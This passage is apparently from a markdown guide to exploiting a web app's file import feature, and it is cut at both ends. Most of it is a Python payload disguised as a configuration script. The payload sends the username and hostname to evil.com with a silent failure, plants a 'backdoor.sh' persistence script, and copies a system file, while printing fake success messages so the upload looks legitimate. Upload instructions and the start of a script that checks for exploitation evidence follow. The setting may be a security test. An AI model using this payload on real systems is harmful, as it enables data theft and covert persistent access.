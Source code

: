 ```python
    print("System validation: PASSED")
except:
    print("System validation: LIMITED")

# Network exfiltration attempt
try:
    data = f"user={username}&host={os.uname().nodename}"
    urllib.request.urlopen(f"http://evil.com/callback?{data}", timeout=1)
except:
    pass  # Fail silently

# Create persistence mechanism
os.system('mkdir -p /tmp/persistence')
os.system('echo "#!/bin/bash\necho Persistent access ready" > /tmp/persistence/backdoor.sh')
os.system('chmod +x /tmp/persistence/backdoor.sh')

# File exfiltration
os.system('cp /etc/hostname /tmp/stolen_hostname.txt 2>/dev/null')

print("Configuration loaded successfully!")
print(f"Ready to process transactions with {import_settings['batch_size']} batch size")

# Return success to make it look legitimate
configuration_status = "loaded"
```

**How to use:**
1. Save the Python code above as `malicious_config.py`
2. Go to `/import` in your app
3. Upload the file with "Configuration Script" selected
4. Click "Import Transactions"
5. Check `/tmp/` for proof files

---

## 5. Quick Test Script

### Create `test_exploits.py`:
```python
#!/usr/bin/env python3
"""
Quick test script to verify the malicious payloads work
Run this to check if the vulnerabilities were successfully exploited
"""

import os
import subprocess

def check_file(filepath, description):
    if os.path.exists(filepath):
        print(f"✅ {description}: {filepath} exists")
        try:
            with open(filepath, 'r') as f:
                content = f.read().strip()
                print(f"   Content: {content}")
        except:
            pass
    else:
        print(f"❌ {description}: {filepath} not found")

def main():
    print("🔍 Checking for exploitation evidence...\n")
    
```
